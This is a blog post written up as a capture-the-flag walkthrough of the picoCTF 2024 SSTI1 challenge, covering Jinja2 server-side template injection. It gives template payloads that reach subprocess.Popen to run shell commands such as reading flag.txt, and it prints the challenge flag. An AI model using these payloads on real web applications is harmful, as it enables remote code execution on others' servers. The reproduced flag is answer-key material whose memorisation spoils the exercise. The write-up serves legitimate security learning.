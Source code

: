 ```yaml
---
layout: post
title: PicoCTF_SSTl1_easy
date: 13-05-2025
categories: [PicoCTF]
tag: [Easy CTF]

---
```


Welcome to DarkR7 blogs.....

# Heading

```shell
I am DarkR7...
```


# picoCTF 2024: SSTI1 Challenge Writeup

## 📌 Challenge Description

> Can you exploit this website? Try to get the website to evaluate a Jinja expression.  


> Link: http://rescued-float.picoctf.net:59626/
 


## 🧠 Understanding the Challenge

This is a **Server-Side Template Injection (SSTI)** challenge using the **Jinja2** template engine.

Our goal is to inject Jinja2 expressions to get the server to execute arbitrary code and ultimately leak the flag.



## 🛠️ Step-by-Step Solution

### 1. Open the Website

The page asks for input and returns it rendered back. This suggests it may be vulnerable to SSTI.

![Initial Site](_data/images/Screenshot_2025-05-13_14_46_53.png)



### 2. Test for Injection

We enter a basic test string: 

**&#123;&#123;7*7&#125;&#125;**

If the site returns `49`, then SSTI is confirmed.

![SSTI Test](_data/images/Screenshot_2025-05-13_14_51_15.png)



### 3. Try Accessing Built-ins

To escalate, we inject the following payload to access built-ins:


**&#123;&#123;''.class.mro[2].subclasses()&#125;&#125;**


This gives access to all subclasses, including `Popen`.

![Subclasses Output](images/Screenshot_2025-05-13_14_48_45.png)



### 4. Find `subprocess.Popen` Index

We locate the index of `subprocess.Popen` subclass from the list and use it to execute code. Example:

**&#123;&#123;''.class.mro[2].subclasses()[&lt;index&gt;]("ls", shell=True, stdout=-1).communicate()&#125;&#125;**


Try commands like `cat flag.txt`.



### 5. Extract the Flag

Eventually, we find the flag using a working payload like:

**&#123;&#123;''.class.mro[2].subclasses()[&lt;index&gt;]("cat flag.txt", shell=True, stdout=-1).communicate()&#125;&#125;**


![Flag Leaked](images/Screenshot_2025-05-13_14_51_15.png)

And finally...

![Flag Final](images/Screenshot_2025-05-13_14_51_21.png)



## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}




## 📚 Concepts Learned

- Server-Side Template Injection (SSTI)
- Jinja2 internals
- Python object hierarchy
- Remote code execution using template injection



## ✅ Tips

- Always test for SSTI using `{{7*7}}`
- Use introspection to access sensitive functions
- Be cautious with payload indexing; try printing small batches to locate targets like `Popen`

